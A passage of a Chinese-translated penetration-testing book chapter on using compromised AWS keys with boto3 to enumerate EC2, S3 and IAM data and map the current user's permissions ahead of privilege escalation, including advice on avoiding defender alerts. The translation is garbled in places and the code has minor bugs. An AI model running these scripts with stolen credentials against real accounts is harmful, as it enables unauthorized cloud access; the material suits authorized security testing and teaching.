






# 十、使用被盗密钥、Boto3 和 Pacu 提升 AWS 帐户的权限

测试 AWS 环境的一个重要方面是枚举用户拥有的权限，然后升级这些权限（如果可能）。第一场战斗就是要知道你能接触到什么，这将允许你在环境中制定攻击计划。接下来是权限提升，如果您可以进一步访问环境，您可以执行更具破坏性的攻击。在本章中，我们将深入到 Python`boto3`库中，学习如何以编程方式进行 AWS API 调用，学习如何使用它自动枚举权限，最后，学习如果用户容易升级，如何使用它升级权限。

出于多种原因，权限的枚举非常重要。其中之一是，我们将避免猜测我们的权限是什么，从而防止在这个过程中出现许多拒绝访问的错误。另一个原因是，它可能会披露有关环境其他部分的信息，例如，如果在我们的**身份和访问管理**（**IAM**）策略之一中标记了特定资源，那么我们就知道该资源正在使用中，并且在某种程度上是重要的。此外，我们可以将权限列表与已知的权限提升方法列表进行比较，看看是否可以授予自己更多的访问权限。如果我们是真正的恶意攻击者而不是恶意攻击者，那么我们对环境的访问越多，我们的攻击对客户的影响就越大，也就越危险。

在本章中，我们将介绍以下主题：

*   使用`boto3`库进行侦察
*   正在转储所有帐户信息
*   使用受损 AWS 密钥的权限枚举
*   使用 Pacu 升级权限和收集凭据

# 权限枚举的重要性

在任何情况下，无论您是否可以升级您的权限，拥有您所拥有的权限的最终列表都是极其重要的。这可以在攻击环境时为您节省大量时间，因为您不需要花时间猜测您可能拥有的访问权限，相反，您可以脱机进行手动分析，以留下较小的日志占用空间。通过了解您拥有的访问权限，您可以避免需要运行测试命令来确定您是否具有权限。这是有益的，因为 API 错误，特别是拒绝访问的错误，可能非常嘈杂，并且可能会提醒防御者注意您的活动。

在许多情况下，您可能会发现您的用户没有足够的权限来枚举其权限的完整列表。在这些情况下，通常建议根据您已有的信息进行假设，例如检索密钥的位置。也许你从上传文件到`S3`的 web 应用程序中获得了这些泄露的密钥。可以安全地假设密钥具有将文件上载到`S3`的权限，并且它们也可以具有读取/列出权限。这组密钥不太可能访问 IAM 服务，因此进行 IAM API 调用可能会非常嘈杂，因为它很可能会返回拒绝访问错误。但这并不意味着你永远不应该尝试这些权限，因为有时这是你唯一的选择，你可能需要在帐户中制造一些噪音，以确定你的下一步将是什么。

# 使用 boto3 库进行侦察

Boto3 是 Python 的 AWS**软件开发工具包**（**SDK**），可以在这里找到：[https://boto3.amazonaws.com/v1/documentation/api/latest/index.html](https://boto3.amazonaws.com/v1/documentation/api/latest/index.html) 。它为 AWSAPI 提供了一个接口，允许我们以编程方式与它们交互，这意味着我们可以自动化和控制我们在 AWS 中尝试做的事情。它由 AWS 管理，因此它不断更新 AWS 的最新功能和产品。它还用于 AWS**命令行界面**（**CLI**）的后端，因此我们与该库交互比从代码中尝试运行 AWS CLI 命令更有意义。

因为我们将在脚本中使用 Python，`boto3`是允许我们与 AWS API 交互的完美选项。通过这种方式，我们可以自动化侦察/信息收集阶段，同时还需要处理大量额外的工作（例如将 HTTP 请求签名到 AWSAPI）。我们将使用 AWS API 收集有关目标帐户的信息，从而确定我们对环境的访问级别，并帮助我们精确制定攻击计划。

本节假设您已经安装了 Python 3 以及`pip`包管理器。

安装`boto3`就像运行一个`pip install`命令一样简单：

```
 pip3 install boto3 
```

现在`boto3`及其依赖项应该安装在您的计算机上。如果`pip3`命令对您不起作用，您可能需要通过 Python 命令直接调用`pip`，如下所示：

```
 python3 -m pip install boto3 
```

# 我们的第一个 Boto3 枚举脚本

安装`boto3`后，只需将其导入 Python 脚本即可。在本章中，我们将从以下 Python 脚本开始，该脚本声明自己为`python3`，然后导入`boto3`：

```
#!/usr/bin/env python3

import boto3

```

有几种不同的方法可以使用`boto3`设置凭据，但我们将只使用一种方法，即创建`boto3``session`来进行 API 调用（[https://boto3.amazonaws.com/v1/documentation/api/latest/reference/core/session.html](https://boto3.amazonaws.com/v1/documentation/api/latest/reference/core/session.html) ）。

在上一章中，我们创建了 IAM 用户并将其密钥保存到 AWS CLI，因此现在使用`boto3`，我们可以检索这些凭据并在脚本中使用它们。我们将首先使用以下代码行为`us-west-2`区域实例化一个`boto3``session`：

```
session = boto3.session.Session(profile_name='Test', region_name='us-west-2') 
```

此代码创建一个新的`boto3``session`，并将在计算机上搜索名称为`Test`的 AWS CLI 配置文件，我们已经设置了该配置文件。通过使用此方法在脚本中处理凭据，我们不需要在代码中直接包含硬编码凭据。

现在我们已经创建了会话，我们可以使用该会话创建`boto3`客户机，然后使用这些客户机对 AWS 进行 API 调用。当创建多个参数以管理不同的配置值时，客户端会接受多个参数，但一般来说，我们只需要担心一个参数，`service_name`参数。它是一个位置参数，并且始终是我们传递给客户机的第一个参数。以下代码行使用我们的凭据设置了一个新的`boto3`客户端，该客户端的目标是 EC2 AWS 服务：

```
   client = session.client('ec2')  
```

现在，我们可以使用这个新创建的客户机对 EC2 服务进行 AWS API 调用。

有关可用方法的列表，您可以访问`boto3`文档中的 EC2 参考页面[https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/ec2.html#client](https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/ec2.html#client) 。

有很多方法可供选择，但为了进行信息枚举，我们将从`describe_instances`方法开始，正如我们之前所示（即在[第 9 章](09.html)的*使用 IAM 访问密钥*部分中，*AWS*上的身份访问管理*使用 AWS CLI，将枚举目标区域中的 EC2 实例。我们可以运行此 API 调用，并使用以下代码行检索结果：*

 *```
   response = client.describe_instances() 
```

`describe_instances`方法接受一些可选参数，但是对于我们进行的第一次调用，我们还不需要任何参数。有一件事是，该方法的文档（[https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/ec2.html#EC2.Client.describe_instances](https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/ec2.html#EC2.Client.describe_instances) 告诉我们它支持分页。根据目标帐户中 EC2 实例的数量，您可能不会在第一次 API 调用中收到所有结果。我们可以通过创建一个单独的变量来容纳所有枚举实例并检查结果是否完整来解决这个问题。

我们添加的前一行代码（`response = client.describe_instances()`）将需要重新排列一点，这样它将以如下方式结束：

```
# First, create an empty list for the enumerated instances to be stored in
instances = []

# Next, make our initial API call with MaxResults set to 1000, which is the max
# This will ensure we are making as few API calls as possible
response = client.describe_instances(MaxResults=1000)

# The top level of the results will be "Reservations" so iterate through those
for reservation in response['Reservations']:
    # Check if any instances are in this reservation
    if reservation.get('Instances'):
        # Merge the list of instances into the list we created earlier
        instances.extend(reservation['Instances'])

# response['NextToken'] will be a valid value if we don't have all the results yet
# It will be "None" if we have completed enumeration of the instances
# So we need check if it has a valid value, and because this could happen again, we will need to make it a loop

# As long as NextToken has a valid value, do the following, otherwise skip it
while response.get('NextToken'):
    # Run the API call again while supplying the previous calls NextToken
    # This will get us the next page of 1000 results
    response = client.describe_instances(MaxResults=1000, NextToken=response['NextToken'])

    # Iterate the reservations and add any instances found to our variable again
    for reservation in response['Reservations']:
        if reservation.get('Instances'):
            instances.extend(reservation['Instances'])
```

现在我们可以确定，即使在有`1000s`个 EC2 实例的大型环境中，我们也有完整的 EC2 实例列表。

# 保存数据

好的，现在我们有了 EC2 实例的列表，但是我们应该如何处理它呢？一个简单的解决方案是将数据输出到本地文件，以便以后可以引用。我们可以通过导入`json`Python 库并将`instances`的内容转储到与脚本位于同一目录下的文件中来实现这一点。让我们将以下代码添加到脚本中：

```
# Import the json library
import json

# Open up the local file we are going to store our data in
with open('./ec2-instances.json', 'w+') as f:
    # Use the json library to dump the contents to the newly opened file with some indentation to make it easier to read. Default=str to convert dates to strings prior to dumping, so there are no errors
    json.dump(instances, f, indent=4, default=str)
```

现在，完整脚本（无注释）应如下所示：

```
#!/usr/bin/env python3

import boto3
import json

session = boto3.session.Session(profile_name='Test', region_name='us-west-2')
client = session.client('ec2')

instances = []

response = client.describe_instances(MaxResults=1000)

for reservation in response['Reservations']:
    if reservation.get('Instances'):
        instances.extend(reservation['Instances'])

while response.get('NextToken'):
    response = client.describe_instances(MaxResults=1000, NextToken=response['NextToken'])

    for reservation in response['Reservations']:
        if reservation.get('Instances'):
            instances.extend(reservation['Instances'])

with open('./ec2-instances.json', 'w+') as f:
    json.dump(instances, f, indent=4, default=str)
```

现在，我们可以使用以下命令运行此脚本：

```
python3 our_script.py 
```

应该在当前目录中创建一个名为`ec2-instances.json`的新文件，当您打开它时，您应该会看到如下屏幕截图，其中列出了`us-west-2`区域中所有 EC2 实例的 JSON 表示。此 JSON 数据包含 EC2 实例的基本信息，包括标识信息、网络信息以及适用于 EC2 实例的其他配置。然而，目前所有这些细节并不重要：



该文件现在应该具有我们之前在代码（`us-west-2`中指定的区域中所有实例的所有枚举信息。

# 添加一些 S3 枚举

现在让我们假设我们想列举账户中存在哪些`S3`存储桶，以及这些存储桶中有哪些文件。目前，我们的 test IAM 用户没有`S3`权限，因此我已将 AWS 管理策略`AmazonS3ReadOnlyAccess`直接附加到我们的用户。如果您自己的用户需要帮助，请参考 AWS 上的[第 9 章](09.html)、*身份访问管理。*

我们将在已经创建的现有脚本的底部添加以下代码。首先，我们需要弄清楚账户中有哪些`S3`桶，因此我们需要为目标`S3`设置一个新的`boto3`客户机：

```
client = session.client('s3') 
```

然后我们将使用`list_buckets`方法检索帐户中的`S3`桶列表。请注意，与`ec2:DescribeInstances`API 调用不同，`s3:ListBuckets`API 调用没有分页，您可以在单个响应中看到帐户中的所有存储桶：

```
response = client.list_buckets() 
```

返回的数据附带了一些我们现在不感兴趣的信息（例如 bucket 创建日期），因此我们将迭代响应，只提取 bucket 的名称：

```
bucket_names = []
  for bucket in response['Buckets']:
       bucket_names.append(bucket['Name'])
```

现在我们已经有了帐户中所有 bucket 的名称，我们可以继续使用`list_objects_v2`API 调用列出每个 bucket 中的文件。`list_objects_v2`API 调用是一个分页操作，因此在第一个 API 调用中可能不是每个对象都返回给我们，因此我们将在脚本中考虑这一点。我们将向脚本中添加以下代码：

```
# Create a dictionary to hold the lists of object (file) names
bucket_objects = {}

# Loop through each bucket we found
for bucket in bucket_names:
    # Run our first API call to pull in the objects
    response = client.list_objects_v2(Bucket=bucket, MaxKeys=1000)

    # Check if there are any objects returned (none will return if no objects are in the bucket)
    if response.get('Contents'):
        # Store the fetched set of objects
        bucket_objects[bucket] = response['Contents']
    else:
        # Set this bucket to an empty object and move to the next bucket
        bucket_objects[bucket] = []
        continue

    # Check if we got all the results or not, loop until we have everything if so
    while response['IsTruncated']:
        response = client.list_objects_v2(Bucket=bucket, MaxKeys=1000, ContinuationToken=response['NextContinuationToken'])

        # Store the newly fetched set of objects
        bucket_objects[bucket].extend(response['Contents'])
```

当这个循环完成时，我们应该以`bucket_objects`作为一个字典结束，其中每个键都是帐户中的一个 bucket 名称，它包含一个存储在其中的对象列表。

与我们将所有 EC2 实例数据转储到`ec2-instances.json`的方式类似，我们现在将所有文件信息转储到多个不同的文件中，其中名称是 bucket 的名称。为此，我们可以添加以下代码：

```
# We know bucket_objects has a key for each bucket so let's iterate that
for bucket in bucket_names:
    # Open up a local file with the name of the bucket
    with open('./{}.txt'.format(bucket), 'w+') as f:
        # Iterate through each object in the bucket
        for bucket_object in bucket_objects[bucket]:
            # Write a line to our file with the object details we are interested in (file name and size)
            f.write('{} ({} bytes)\n'.format(bucket_object['Key'], bucket_object['Size']))
```

现在，我们添加到原始脚本中的最终代码应该如下所示（无注释）：

```
client = session.client('s3')

bucket_names = []

response = client.list_buckets()
for bucket in response['Buckets']:
    bucket_names.append(bucket['Name'])

bucket_objects = {}

for bucket in bucket_names:
    response = client.list_objects_v2(Bucket=bucket, MaxKeys=1000)

    bucket_objects[bucket] = response['Contents']

    while response['IsTruncated']:
        response = client.list_objects_v2(Bucket=bucket, MaxKeys=1000, ContinuationToken=response['NextContinuationToken'])

        bucket_objects[bucket].extend(response['Contents'])

for bucket in bucket_names:
    with open('./{}.txt'.format(bucket), 'w+') as f:
        for bucket_object in bucket_objects[bucket]:
            f.write('{} ({} bytes)\n'.format(bucket_object['Key'], bucket_object['Size']))
```

现在，我们可以使用与以前相同的命令再次运行脚本：

```
python3 our_script.py 
```

当它完成时，它应该再次枚举 EC2 实例并将它们存储在`ec2-instances.json`文件中，现在帐户中的每个 bucket 都应该有一个文件，其中包含所有对象的文件名和文件大小。以下屏幕截图显示了从我们的`test`存储桶之一下载的信息片段：



现在我们知道了存在哪些文件，我们可以尝试使用 AWS S3 API 命令`get_object`，下载听起来有趣的文件，但我将把这作为一项任务留给您。请记住，数据传输会对其所在的 AWS 帐户产生费用，因此编写脚本尝试下载 bucket 中的每个文件通常不是一个好主意。如果您这样做了，您很容易就会遇到一个存储了 TB 数据的存储桶，并对 AWS 帐户造成大量意外费用。这就是为什么根据名称和大小选择要下载的文件很重要的原因。

# 正在转储所有帐户信息

AWS 使通过多种方法（或 API）从帐户检索数据成为可能，其中一些方法比其他方法更容易。这对我们作为攻击者来说是有利的，因为我们可能被拒绝访问一个权限，但允许访问另一个权限，这最终可以用于实现相同的目标。

# 一个新脚本–IAM 枚举

在本节中，我们将从一个新脚本开始，目标是让它枚举有关 IAM 服务和 AWS 帐户的各种数据点。脚本将从我们已经填写的一些内容开始：

```
#!/usr/bin/env python3

import boto3

session = boto3.session.Session(profile_name='Test', region_name='us-west-2')
client = session.client('iam')
```

我们已声明该文件为`python3`文件，导入`boto3`库，使用`us-west-2`区域`Test`配置文件中的凭据创建我们的`boto3``session`，然后使用这些凭据为 IAM 服务创建`boto3`客户端。

我们将从`get_account_authorization_details`API 调用（[开始 https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/iam.html#IAM.Client.get_account_authorization_details](https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/iam.html#IAM.Client.get_account_authorization_details) ），它从帐户返回大量信息，包括用户、角色、组和策略信息。这是一个分页 API 调用，因此我们将首先创建空列表，在枚举数据时累积数据，然后进行第一个 API 调用：

```
# Declare the variables that will store the enumerated information
user_details = []
group_details = []
role_details = []
policy_details = []

# Make our first get_account_authorization_details API call
response = client.get_account_authorization_details()

# Store this first set of data
if response.get('UserDetailList'):
    user_details.extend(response['UserDetailList'])
if response.get('GroupDetailList'):
    group_details.extend(response['GroupDetailList'])
if response.get('RoleDetailList'):
    role_details.extend(response['RoleDetailList'])
if response.get('Policies'):
    policy_details.extend(response['Policies'])
```

然后我们需要检查响应是否分页，以及是否需要进行另一个 API 调用以获得更多结果。就像以前一样，我们可以通过一个简单的循环来实现这一点：

```
# Check to see if there is more data to grab
while response['IsTruncated']:
    # Make the request for the next page of details
    response = client.get_account_authorization_details(Marker=response['Marker'])

    # Store the data again
    if response.get('UserDetailList'):
        user_details.extend(response['UserDetailList'])
    if response.get('GroupDetailList'):
        group_details.extend(response['GroupDetailList'])
    if response.get('RoleDetailList'):
        role_details.extend(response['RoleDetailList'])
    if response.get('Policies'):
        policy_details.extend(response['Policies'])
```

您可能已经注意到，AWS API 调用参数和响应的名称和结构不一致（例如，`ContinuationToken`对`NextToken`对`Marker`。没有办法解决这个问题，`boto3`库的命名方案不一致，因此阅读您正在运行的命令的文档非常重要。

# 保存数据（再次）

现在，就像以前一样，我们希望将这些数据保存到某个地方。我们将其存储在四个单独的文件中，`users.json`、`groups.json`、`roles.json`和`policies.json`，代码如下：

```
# Import the json library
import json

# Open up each file and dump the respective JSON into them
with open('./users.json', 'w+') as f:
    json.dump(user_details, f, indent=4, default=str)
with open('./groups.json', 'w+') as f:
    json.dump(group_details, f, indent=4, default=str)
with open('./roles.json', 'w+') as f:
    json.dump(role_details, f, indent=4, default=str)
with open('./policies.json', 'w+') as f:
    json.dump(policy_details, f, indent=4, default=str)
```

最终的脚本（无注释）应如下所示：

```
#!/usr/bin/env python3

import boto3
import json

session = boto3.session.Session(profile_name='Test', region_name='us-west-2')
client = session.client('iam')

user_details = []
group_details = []
role_details = []
policy_details = []

response = client.get_account_authorization_details()

if response.get('UserDetailList'):
    user_details.extend(response['UserDetailList'])
if response.get('GroupDetailList'):
    group_details.extend(response['GroupDetailList'])
if response.get('RoleDetailList'):
    role_details.extend(response['RoleDetailList'])
if response.get('Policies'):
    policy_details.extend(response['Policies'])

while response['IsTruncated']:
    response = client.get_account_authorization_details(Marker=response['Marker'])
    if response.get('UserDetailList'):
        user_details.extend(response['UserDetailList'])
    if response.get('GroupDetailList'):
        group_details.extend(response['GroupDetailList'])
    if response.get('RoleDetailList'):
        role_details.extend(response['RoleDetailList'])
    if response.get('Policies'):
        policy_details.extend(response['Policies'])

with open('./users.json', 'w+') as f:
    json.dump(user_details, f, indent=4, default=str)
with open('./groups.json', 'w+') as f:
    json.dump(group_details, f, indent=4, default=str)
with open('./roles.json', 'w+') as f:
    json.dump(role_details, f, indent=4, default=str)
with open('./policies.json', 'w+') as f:
    json.dump(policy_details, f, indent=4, default=str)
```

现在，我们可以使用以下命令运行脚本：

```
python3 get_account_details.py 
```

当前文件夹最终应创建四个新文件，其中包含帐户中用户、组、角色和策略的详细信息。

# 使用泄露 AWS 密钥的权限枚举

现在，我们可以扩展上一节中的脚本，通过关联存储在不同文件中的数据，使用收集的数据来确定当前用户的确切权限。为此，我们首先需要在下拉的用户列表中找到当前用户。

# 确定我们的访问级别

在攻击场景中，您可能不知道当前用户的用户名，因此我们将添加这行代码，使用`iam:GetUser`API 确定该信息（请注意，如果您的凭据属于某个角色，则此调用将失败）：

```
   username = client.get_user()['User']['UserName'] 
```

然后，我们将遍历收集的用户数据并查找当前用户：

```
# Define a variable that will hold our user
current_user = None

# Iterate through the enumerated users
for user in user_details:
    # See if this user is our user
    if user['UserName'] == username:
        # Set the current_user variable to our user
        current_user = user

        # We found the user, so we don't need to iterate through the rest of them
        break
```

我们现在可以检查一些不同的信息，这些信息可能附加到用户对象，也可能不附加到用户对象。如果某条信息不存在，那就意味着我们不需要担心它的价值。

为了为我们的用户提供完整的权限列表，我们需要检查以下数据：`UserPolicyList`、`GroupList`和`AttachedManagedPolicies`。`UserPolicyList`将包含附加到我们用户的所有内联策略，`AttachedManagedPolicies`将包含附加到我们用户的所有托管策略，`GroupList`将包含我们用户所属组的列表。对于每个策略，我们需要提取与它们相关联的文档，对于组，我们需要检查附加到它的内联策略和托管策略，然后提取与这些策略相关联的文档，以最终得出最终的权限列表。

# 分析附加到用户的策略

我们将首先收集附加到用户的内联策略文档。幸运的是，所有内联策略的完整文档都包含在我们的用户中。我们将向脚本中添加以下代码：

```
# Create an empty list that will hold all the policies related to our user
my_policies = []

# Check if any inline policies are attached to my user
if current_user.get('UserPolicyList'):
    # Iterate through the inline policies to pull their documents
    for policy in current_user['UserPolicyList']:
        # Add the policy to our list
        my_policies.append(policy['PolicyDocument'])
```

现在`my_policies`应该包括所有直接附加到用户的内联策略。接下来，我们将收集附加到用户的托管策略文档。策略文档不是直接附加到我们的用户，因此我们必须使用标识信息在我们的`policy_details`变量中查找策略文档：

```
# Check if any managed policies are attached to my user
if current_user.get('AttachedManagedPolicies'):
    # Iterate through the list of managed policies
    for managed_policy in user['AttachedManagedPolicies']:
        # Note the policy ARN so we can find it in our other variable
        policy_arn = managed_policy['PolicyArn']

        # Iterate through the policies stored in policy_details to find this policy
        for policy_detail in policy_details:
            # Check if we found the policy yet
            if policy_detail['Arn'] == policy_arn:
                # Determine the default policy version, so we know which version to grab
                default_version = policy_detail['DefaultVersionId']

                # Iterate the available policy versions to find the one we want
                for version in policy_detail['PolicyVersionList']:
                    # Check if we found the default version yet
                    if version['VersionId'] == default_version:
                        # Add this policy document to our original variable
                        my_policies.append(version['Document'])

                        # We found the document, so exit this loop
                        break
                # We found the policy, so exit this loop
                break
```

现在`my_policies`应该包括所有直接连接到用户的内联策略和托管策略。接下来，我们将找出我们所属的组，然后列举附加到每个组的内联策略和托管策略。完成后，我们将拥有分配给用户的权限的完整列表：

```
# Check if we are in any groups
if current_user.get('GroupList'):
    # Iterate through the list of groups
    for user_group in current_user['GroupList']:
        # Iterate through all groups to find this one
        for group in group_details:
            # Check if we found this group yet
            if group['GroupName'] == user_group:
                # Check for any inline policies on this group
                if group.get('GroupPolicyList'):
                    # Iterate through each inline policy
                    for inline_policy in group['GroupPolicyList']:
                        # Add the policy document to our original variable
                        my_policies.append(inline_policy['PolicyDocument'])

                # Check for any managed policies on this group
                if group.get('AttachedManagedPolicies'):
                    # Iterate through each managed policy detail
                    for managed_policy in group['AttachedManagedPolicies']:
                        # Grab the policy ARN
                        policy_arn = managed_policy['PolicyArn']

                        # Find the policy in our list of policies
                        for policy in policy_details:
                            # Check and see if we found it yet
                            if policy['Arn'] == policy_arn:
                                # Get the default version
                                default_version = policy['DefaultVersionId']

                                # Find the document for the default version
                                for version in policy['PolicyVersionList']:
                                    # Check and see if we found it yet
                                    if version['VersionId'] == default_version:
                                        # Add the document to our original variable
                                        my_policies.append(version['Document'])

                                        # Found the version, so break out of this loop
                                        break
                                    # Found the policy, so break out of this loop
                                    break
```

现在，脚本应该已经完成，我们的`my_policies`变量应该包含直接附加到用户的所有内联和托管策略的策略文档，以及附加到用户所属的每个组的所有内联和托管策略。我们可以通过添加将数据输出到本地文件的最后一个片段来检查这些结果：

```
with open('./my-user-permissions.json', 'w+') as f:
 json.dump(my_policies, f, indent=4, default=str)
```

我们可以使用相同的命令运行该文件：

```
 python3 get_account_details.py
```

然后我们可以检查生成的`my-user-permissions.json`，它应该包含应用于您的用户的所有策略和权限的列表。它应该类似于以下屏幕截图：



现在，我们有了一个很好的列表，列出了我们拥有的权限、我们可以在哪些资源上使用这些权限，以及我们可以在哪些条件下应用这些权限。

# 另一种方法

